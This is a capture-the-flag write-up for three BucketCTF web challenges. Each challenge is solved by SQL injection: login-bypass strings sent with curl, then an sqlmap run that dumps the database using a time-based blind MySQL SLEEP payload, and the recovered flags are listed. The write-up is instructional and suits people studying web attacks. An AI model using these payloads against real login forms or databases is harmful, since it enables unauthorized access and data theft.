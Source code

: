 ```yaml
---
author: "Asad Ullah"
title: "SQLi 1, 2, 3  - BucketCTF"
description: 
summary: Write-up on web sql injections easy, medium and hard.
date: 2023-04-10T05:04:24+05:00
Section: write-ups
categories:
- writeup
- web
- ctftime.org

tags:
- bucketctf
- sqli
- sql injection
- time based sqli
- payload
- blind sqli

draft: false

---
```


&nbsp;


## Web - SQLi - 1

{{< 
ctftime 
name="SQLi - 1" 
difficulty="Easy"  
points="200"
category="web"
>}}

&nbsp;

### Description

This is my first time using SQL. Its such a great and simple tool.

### Approach

I attempted several payloads, but ultimately, this one worked: `' or 1=1--`

```bash
┌──(kali㉿iasad)-[~/CTFs/BucketCTF]
└─$ curl -d "userName=' or 1=1--&password=' or 1=1--" 213.133.103.186:7763/login

bucket{s1mp13_sq11_ed0176a}
```

![Untitled](/write-ups/ctftime/bucket/sqli-1.webp)

&nbsp;

---

**Flag: `bucket{s1mp13_sq11_ed0176a}`**

---

&nbsp;

&nbsp;

## Web - SQLi - 2

{{< 
ctftime 
name="SQLi - 2" 
difficulty="Medium"  
points="200"
category="web"
>}}

&nbsp;

### Description

Ok I upgrade my security by preventing you from using semicolons. A StackOverflow thread told me that would work.

### Approach

Again, I attempted several payloads but found success with this one: `' OR 1 -- -`

```bash
┌──(kali㉿iasad)-[~/CTFs/BucketCTF]
└─$ curl -d "userName=' OR 1 -- -&password=' OR 1 -- -" 213.133.103.186:5900/login

bucket{m3d1um_sq11_693f79541}
```

![Untitled](/write-ups/ctftime/bucket/sqli-2.webp)

&nbsp;

---

**Flag: `bucket{m3d1um_sq11_693f79541}`**

---

&nbsp;

&nbsp;

## Web - SQLi - 3

{{< 
ctftime 
name="SQLi - 3" 
difficulty="Hard"  
points="290"
category="web"
>}}

&nbsp;

### Description

Finally! I moved the secret into a **COMPLETELY** different table. There is **NO** way you can find it now.

### Approach

After attempting some payloads manually without success, I used `SQLmap` and successfully retrieved the flag. The database was `MySQL` and the parameters were vulnerable to `blind SQL Injection`

&nbsp;

***Breakdown of options in the SQLmap command***

- **`-u`** specifies the target URL to be scanned.
- **`-data`** provides the POST data to be sent with the request.
- **`-p`** indicates the parameters to be tested for SQL injection.
- **`-method`** specifies the HTTP method used for the request.
- **`-dump`** dumps the contents of the database after a successful SQLi attack.

```bash
┌──(kali㉿iasad)-[~/CTFs/Tools/sqlmap-dev]
└─$ python3 sqlmap.py -u "http://213.133.103.186:6409/login" --data "userName=1&password=2" -p "userName,password" --method POST --dump
        ___
       __H__
 ___ ___[(]_____ ___ ___  {1.7.4.6#dev}
|_ -| . [']     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal.
[*] starting @ 15:35:20 /2023-04-10/

[15:35:21] [INFO] resuming back-end DBMS 'mysql' 
[15:35:21] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: userName (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: userName=1' AND (SELECT 5012 FROM (SELECT(SLEEP(5)))lPED) AND 'eyGp'='eyGp&password=2
---
[15:35:21] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.0.12
[15:35:21] [WARNING] missing database parameter. sqlmap is going to use the current database to enumerate table(s) entries
[15:35:21] [INFO] fetching current database
[15:35:22] [INFO] resumed: railway
[15:35:22] [INFO] fetching tables for database: 'railway'
[15:35:22] [INFO] fetching number of tables for database 'railway'
[15:35:22] [INFO] resumed: 2
[15:35:22] [INFO] resumed: Flag
[15:35:22] [INFO] resumed: Users
[15:35:22] [INFO] fetching columns for table 'Flag' in database 'railway'
[15:35:22] [INFO] resumed: 2
[15:35:22] [INFO] resumed: id
[15:35:22] [INFO] resumed: value
[15:35:22] [INFO] fetching entries for table 'Flag' in database 'railway'
[15:35:22] [INFO] fetching number of entries for table 'Flag' in database 'railway'
[15:35:22] [INFO] resumed: 1
[15:35:22] [WARNING] (case) time-based comparison requires larger statistical model, please wait.............................. (done)                       
[15:35:38] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] y
[15:36:39] [INFO] adjusting time delay to 2 seconds due to good response times
bucket{j01
[15:37:31] [ERROR] invalid character detected. retrying..
[15:37:31] [WARNING] increasing time delay to 3 seconds
n5_m4k3_n0_53
[15:38:58] [ERROR] invalid character detected. retrying..
[15:39:30] [ERROR] invalid character detected. retrying..
[15:39:30] [WARNING] increasing time delay to 6 seconds
n53_a5ed15}
[15:42:30] [ERROR] invalid character detected. retrying..
[15:42:30] [WARNING] increasing time delay to 8 seconds


[*] ending @ 15:47:24 /2023-04-10/
```

The flag was printed in pieces due to time-based SQL injection attack.

&nbsp;

---

**Flag: `bucket{j01n5_m4k3_n0_53n53_a5ed15}`**

---

&nbsp;

&nbsp;

